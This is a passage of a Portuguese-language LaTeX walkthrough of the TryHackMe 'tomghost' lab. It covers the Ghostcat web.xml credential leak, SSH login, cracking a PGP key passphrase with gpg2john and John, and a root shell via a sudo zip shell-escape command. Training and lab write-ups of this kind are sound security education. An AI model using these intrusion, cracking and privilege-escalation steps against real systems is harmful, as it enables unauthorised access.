  
\includegraphics[width=0.95\linewidth]{user_extraction.png}
  \caption{\emph{Exploit} Ghostcat lendo \texttt{/WEB-INF/web.xml} e expondo a
  credencial de \texttt{skyfuck} no campo \texttt{<description>}.}
  \label{fig:user_extraction}
\end{figure}

\subsection{Acesso SSH como skyfuck}
As credenciais vazadas autenticam diretamente no SSH. O \emph{home} de
\texttt{skyfuck} contém dois artefatos de interesse: um arquivo \textbf{cifrado}
(\texttt{credential.pgp}) e uma \textbf{chave privada PGP} (\texttt{tryhackme.asc}).

\begin{lstlisting}[language=bash,caption={Login SSH e artefatos no home de skyfuck.}]
ssh skyfuck@<TARGET_IP>
ls -latr        # -> credential.pgp (cifrado) e tryhackme.asc (chave privada PGP)
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{ssh.png}
  \caption{Autenticação SSH como \texttt{skyfuck} usando a credencial vazada no
  \texttt{web.xml} (Ubuntu 16.04).}
  \label{fig:ssh}
\end{figure}

\subsection{Quebra da passphrase da chave PGP}
A chave privada é protegida por \emph{passphrase}. Converte-se a chave para um
\emph{hash} compatível com o John (\texttt{gpg2john}) e quebra-se com a
\emph{wordlist} \emph{rockyou}.

\begin{lstlisting}[language=bash,caption={Extração do hash da chave e quebra com John.}]
gpg2john tryhackme.asc > hash_private_key.txt        # -> <HASH>
john hash_private_key.txt --wordlist=/usr/share/wordlists/rockyou.txt
# john --show  ->  passphrase: <PASSWORD>
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{john_the_riper.png}
  \caption{\texttt{gpg2john} converte a chave privada e o John quebra a
  \emph{passphrase} com a \emph{wordlist} \emph{rockyou}.}
  \label{fig:john}
\end{figure}

\subsection{Decifragem da credencial}
Com a \emph{passphrase}, importa-se a chave e decifra-se \texttt{credential.pgp},
revelando a credencial de \texttt{merlin}.

\begin{lstlisting}[language=bash,caption={Importação da chave e decifragem do arquivo.}]
gpg --import tryhackme.asc
gpg -d credential.pgp        # informa a passphrase quebrada
# -> merlin:<PASSWORD>
\end{lstlisting}

%============================= 2.6 MOV. LATERAL =================================
\section{Movimentação Lateral}
De posse da credencial decifrada, autentica-se via SSH como \texttt{merlin}, cujo
\emph{home} contém a \textbf{flag de usuário}.

\begin{lstlisting}[language=bash,caption={Acesso como merlin e flag de usuário.}]
ssh merlin@<TARGET_IP>
cat user.txt        # -> <FLAG>
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{root_flag.png}
  \caption{Decifragem de \texttt{credential.pgp} revelando as credenciais de
  \texttt{merlin} e, à esquerda, o acesso SSH como \texttt{merlin} com leitura da
  \emph{flag} de usuário.}
  \label{fig:merlin}
\end{figure}

%======================== 2.7 ESCALADA DE PRIVILEGIOS ==========================
\section{Escalada de Privilégios}

\subsection{Enumeração local}
O \cmd{sudo -l} revela que \texttt{merlin} pode executar \texttt{/usr/bin/zip}
como \texttt{root}, sem senha.

\begin{lstlisting}[style=output,caption={Politica de sudo de merlin.}]
User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
\end{lstlisting}

\subsection{Shell escape via zip e flag de root}
O \texttt{zip} possui um recurso de teste (\texttt{-T}/\texttt{-TT}) que executa
um comando externo; via \texttt{sudo}, esse comando roda como \texttt{root}
(técnica documentada no GTFOBins).

\begin{lstlisting}[language=bash,caption={Escalada a root pelo zip.}]
sudo /usr/bin/zip /home/merlin/temp.txt /etc/hosts -T -TT '/bin/sh #'
# -> shell como root
cat /root/root.txt        # -> <FLAG>
\end{lstlisting}

%============================= 2.8 CONCLUSAO ====================================
\section{Conclusão}
O comprometimento começou pelo \textbf{conector AJP} exposto: o \textbf{Ghostcat}
(CVE-2020-1938) permitiu ler \texttt{/WEB-INF/web.xml}, que continha uma
\textbf{credencial em texto claro} (\texttt{skyfuck}). Já no SSH, a presença de
uma \textbf{chave privada PGP} com \emph{passphrase} fraca permitiu, via
\texttt{gpg2john}+\texttt{john}, decifrar \texttt{credential.pgp} e obter as
credenciais de \texttt{merlin} (flag de usuário). Por fim, uma regra de
\texttt{sudo} sobre \texttt{/usr/bin/zip} permitiu \emph{shell escape} e acesso
\texttt{root}. As falhas centrais foram o \textbf{AJP exposto}, o
\textbf{vazamento de credencial} em arquivo de configuração, a \textbf{passphrase
fraca} da chave PGP e uma \textbf{configuração de \texttt{sudo} permissiva}.

%============================= 2.9 REFERENCIAS =================================
\section{Referências}
\begin{itemize}[leftmargin=1.5em]
  \item TryHackMe --- Sala \emph{tomghost} ---
        \url{https://tryhackme.com/room/tomghost}
  \item CVE-2020-1938 --- \emph{Apache Tomcat AJP File Read/Inclusion (Ghostcat)} ---
        \url{https://nvd.nist.gov/vuln/detail/CVE-2020-1938}
  \item 00theway --- \emph{Ghostcat-CNVD-2020-10487} (exploit) ---
        \url{https://github.com/00theway/Ghostcat-CNVD-2020-10487}
  \item GTFOBins --- \texttt{zip} ---
        \url{https://gtfobins.github.io/gtfobins/zip/}
\end{itemize}

\end{document}
